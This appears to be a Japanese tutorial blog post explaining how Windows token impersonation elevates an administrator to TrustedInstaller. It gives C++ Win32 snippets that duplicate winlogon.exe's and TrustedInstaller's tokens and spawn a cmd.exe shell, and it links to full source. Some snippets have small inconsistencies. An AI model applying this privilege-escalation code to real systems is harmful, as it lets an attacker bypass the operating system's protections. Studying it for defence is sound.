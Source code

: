 ```yaml
---
title: "トークン偽装(窃取)攻撃の仕組みとコード"
emoji: "🖥️"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["セキュリティ", "Windows", "C++"]
published: true
---
```


トークン偽装(窃取)攻撃について実際のコードと一緒に備忘録として残します。
Windowsにはプロセスのアクセス管理の仕組みとしてアクセストークンという手法を用いています。
各プロセスにはアクセス権限情報を持ったアクセストークンが割り当てられており、対応する権限があれば複製をすることができます。
トークン偽装攻撃は自プロセスよりも高い権限が付与されたアクセストークンを複製し、
起動するプロセスに割り当てることでWindowsの最高権限であるTrustedInstallerに昇格することを指します。
以下コードはすべてC++で、呼んでいる関数は明記しない限りすべてWin32 APIのものになります。

## 前提条件

偽装トークンを作成することができるSeImpersonatePrivilege特権が必要です。
Administratorグループのユーザーなら保持しています。

## 用語の解説

### プライマリアクセストークン

ユーザーの権限(セキュリティコンテキスト)が記録されたトークン。
ユーザーが起動するプロセスはプライマリアクセストークンが継承されて付与されます。

### 　偽装トークン

Windowsには仕様として他のユーザーのセキュリティコンテキストを持ったトークンを利用してスレッドを実行することができる機能が提供されています。
これを偽装トークンと呼びます。
偽装トークンを用いることでアクセス制御の処理を簡略することができます。
たとえば、ファイルサーバーがクライアントに対してファイルのアクセス権限をチェックする場合を考えます。
クライアントのセキュリティコンテキストを取得してアクセス権限のチェックを行うよりも、
クライアントのアクセストークンを偽装トークンとして複製してからそのファイルにアクセスすればアクセス権限のチェックをWindowsに委譲することができます。
こうすることで、サーバープログラムはWindowsのアクセス制御の仕組みの変更に対して強くなります。

以下にさらに詳しく説明されています。
<https://blog.nflabs.jp/entry/2021/12/20/094644>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.4.2.d_%E5%81%BD%E8%A3%85.MD>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.6.3_%E5%BC%B7%E5%8A%9B%E3%81%AA%E7%89%B9%E6%A8%A9.MD>

## 昇格までの流れ

1. winlogon.exeのアクセストークンを複製
1. 現在のスレッドに複製したwinlogon.exeの偽装トークンを付与
1. TrustedInstallerサービスの起動
1. TrustedInstaller.exeからプライマリトークンを複製
1. TrustedInstaller権限でプロセスを起動する

## 1. winlogon.exeのアクセストークンを複製

Windowsのログオン機能をつかさどるwinlogon.exeはSYSTEM権限で起動されています。
そのため、winlogon.exeにはSYSTEM権限のアクセストークンが紐づけられています。
以下関数を利用してwinlogon.exeのアクセストークンを偽装トークン(TokenImpersonation)としてコピーします。

```cpp
// winlogon.exeのプロセスのハンドルを取得。(pidはwinlogon.exeのプロセスID)
HANDLE hProcessWinlogon = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
// winlogon.exeのプロセスハンドルからアクセストークンのハンドルを取得
HANDLE hTokenWinlogon;
OpenProcessToken(hProcessWinlogon, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTokenWinlogon); 
//DuplicateProcessToken関数を使用してして偽装トークンとして複製し、ハンドルを取得。
HANDLE hImpersonationToken;
DuplicateTokenEx(hTokenWinlogon, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenImpersonation, &hImpersonationToken)
```

:::message
関数のリファレンス

OpenProcess
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess>
OpenProcessToken
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken>
DuplicateTokenEx
<https://learn.microsoft.com/ja-jp/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex>
:::

## 2. 現在のスレッドに複製したwinlogon.exeの偽装トークンを付与

後述するTrustedInstallerサービスを起動するために、複製したSYSTEM権限を持つ偽装トークンを自スレッドに割り当てることでをSYSTEM権限に昇格させます。

```cpp
 // 現在のプロセスのハンドルを取得
 HANDLE hCurrentThread = GetCurrentThread();
 // 複製したアクセストークンを現在のスレッドに割り当てる。
 // hImpersonationTokenには前項で複製したwinlogin.exeのアクセストークンのハンドルが入る
 SetThreadToken(&hCurrentThread, hImpersonationToken);
```

:::message
関数のリファレンス

GetCurrentThread
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentthread>
SetThreadToken
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadtoken>
:::

## 3. TrustedInstallerサービスの起動

TrustedInstallerに昇格するにはTrustedInstaller権限のアクセストークンが付与されているプロセスが必要です。
WindowsのTrustedInstallerサービスはSYSTEM権限で起動することができ、そのプロセスのアクセストークンにはTrustedInstallerの権限が付与されています。

```cpp
// TrustedInstaller サービスの起動
SC_HANDLE hTrustedInstallerService = OpenServiceW(OpenSCManagerW(NULL, NULL, SC_MANAGER_ALL_ACCESS), L"trustedinstaller", MAXIMUM_ALLOWED);
SERVICE_STATUS_PROCESS lpBuffer = {};
DWORD pcbBytesNeeded;
// サービスの状況を問い合わせ。lpBufferにサービス情報が入り、lpBuffer.dwProcessIdにプロセスIDが格納される。
QueryServiceStatusEx(hTrustedInstallerService, SC_STATUS_PROCESS_INFO, (BYTE*)&lpBuffer, sizeof(ssp), &pcbBytesNeeded)
```

## 4. TrustedInstaller.exeからプライマリトークンを複製

起動したTrustedInstaller.exeからプライマリアクセストークンを複製します。

```cpp
// 前項の処理でlpBuffer.dwProcessIdはTrustedInstaller.exeのプロセスIDを保持しています。
HANDLE hProcessTrustedInstaller = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, lpBuffer.dwProcessId);
// TrustedInstaller.exeのアクセストークン 
HANDLE hTruestedInstallerToken;
OpenProcessToken(hProcessTrustedInstaller, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTruestedInstallerToken); 
// 複製するプライマリトークン
HANDLE hPrimaryToken;
DuplicateTokenEx(hTruestedInstallerToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenPrimary, &hPrimaryToken)
```

:::message
関数のリファレンス
OpenServiceW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-openservicew>
OpenSCManagerW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-openscmanagerw>
QueryServiceStatusEx
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-queryservicestatusex>
:::

## 5. TrustedInstaller権限でプロセスを起動する

あとは作成するプロセスにTrustedInstallerのプライマリアクセストークンを付与することで、TrustedInstallerに昇格することができます。

```cpp
// コマンドプロンプト
const LPCWSTR targetExecutable = L"C:\\Windows\\System32\\cmd.exe";
STARTUPINFO si = {};
PROCESS_INFORMATION pi = {};
// コマンドプロンプトをTrustedInstaller権限のアクセストークンを付与して起動する。
// hTruestedInstallerToken前項で複製したTrustedinstaller.exeのプライマリアクセストークン
CreateProcessWithTokenW(hTruestedInstallerToken, LOGON_NETCREDENTIALS_ONLY, targetExecutable, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

:::message
関数のリファレンス
CreateProcessWithTokenW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw>
:::

以下のようになれば成功です。
アカウント名が「dev」から「nt authority\system」になっています。
nt authority\systemはSYSTEMレベルの権限をもつ疑似ユーザーです。
![シェル起動の例](/images/c54054307260f7/image.png)

## まとめ

以上のプロセスでTrustedInstaller権限でプロセスを立ち上げることができます。
全体のソースコードは以下にあります。ダウンロードの際はセキュリティソフトに検知されますのでお気を付けください。
<https://github.com/takafumiokamoto/RunAsTrustedInstaller>

## 参考記事

こちらの記事はすごく詳しく詳細にまとめられています。
<https://devblog.lac.co.jp/entry/20220905>
<https://book.hacktricks.xyz/v/jp/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens>
<https://blog.nflabs.jp/entry/2021/12/20/094644>
また、実装にあたり以下リポジトリを参考にさせていただきました。
<https://github.com/wilszdev/GetTrustedInstallerShell>
